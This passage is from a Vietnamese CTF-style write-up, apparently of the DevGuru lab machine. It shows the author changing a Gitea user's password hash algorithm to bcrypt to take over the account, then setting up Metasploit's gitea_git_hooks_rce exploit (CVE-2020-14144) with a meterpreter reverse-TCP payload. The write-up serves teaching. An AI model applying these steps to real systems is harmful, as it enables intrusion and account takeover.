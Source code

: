 Ở dưới trường passwd có thêm **passwd_hash_algo**, giá trị của nó cũng là thuật toán mã hóa cho mật khẩu của frank. Check lại file config của gitea một lần nữa:

```shell
www-data@devguru:/var/backups$ grep -A 10 -i 'pbkdf2' app.ini.bak
; Password Hash algorithm, either "argon2", "pbkdf2", "scrypt" or "bcrypt"
PASSWORD_HASH_ALGO                       = pbkdf2
```

Có thể thấy giá trị mặc định của **passwd_hash_algo** là pbkdf2. Ngoài ra, **passwd_hash_algo** chấp nhận 4 loại hash đó là: "argon2", "pbkdf2", "scrypt" or "bcrypt". Ây dà, có em "bcrypt" đã từng gặp ở ngôi nhà cũ của frank rồi. Giờ chỉ việc thay đổi thuật toán mã hóa về "bcrypt", đồng thời chèn cái passwd hash dưới dạng đó là xong.

![frank gitea](/posts/devguru/frank-gitea-1.PNG)

Ném vào login vô gitea cổng 8585

![gitea home](/posts/devguru/gitea-home.PNG)

Gitea v1.12.5 có chứa 1 lỗ hổng dẫn tới RCE, có mã [CVE-2020-14144](https://www.cvedetails.com/cve/CVE-2020-14144/){:target="\_blank"}. Nếu khai thác lỗi này thành công, ta có thể lấy được shell của thằng frank chạy trong hệ thống.

```shell
msf6 > search gitea

Matching Modules
================

   #  Name                                    Disclosure Date  Rank       Check  Description
   -  ----                                    ---------------  ----       -----  -----------
   0  exploit/multi/http/gitea_git_fetch_rce  2022-05-16       excellent  Yes    Gitea Git Fetch Remote Code Execution
   1  exploit/multi/http/gitea_git_hooks_rce  2020-10-07       excellent  Yes    Gitea Git Hooks Remote Code Execution
   2  exploit/multi/http/gogs_git_hooks_rce   2020-10-07       excellent  Yes    Gogs Git Hooks Remote Code Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/gogs_git_hooks_rce
```

Search trong metasploit, tìm thấy 2 module khai thác lỗi RCE của gitea. Ở đây mình dùng module `exploit/multi/http/gitea_git_hooks_rce`

```shell
msf6 > use exploit/multi/http/gitea_git_hooks_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/gitea_git_hooks_rce) > show TARGETS

Exploit TARGETS:
=================

    Id  Name
    --  ----
    0   Unix Command
=>  1   Linux Dropper
    2   Windows Command
    3   Windows Dropper


msf6 exploit(multi/http/gitea_git_hooks_rce) > set TARGET 0
TARGET => 0
msf6 exploit(multi/http/gitea_git_hooks_rce) > set USERNAME frank
USERNAME => frank
```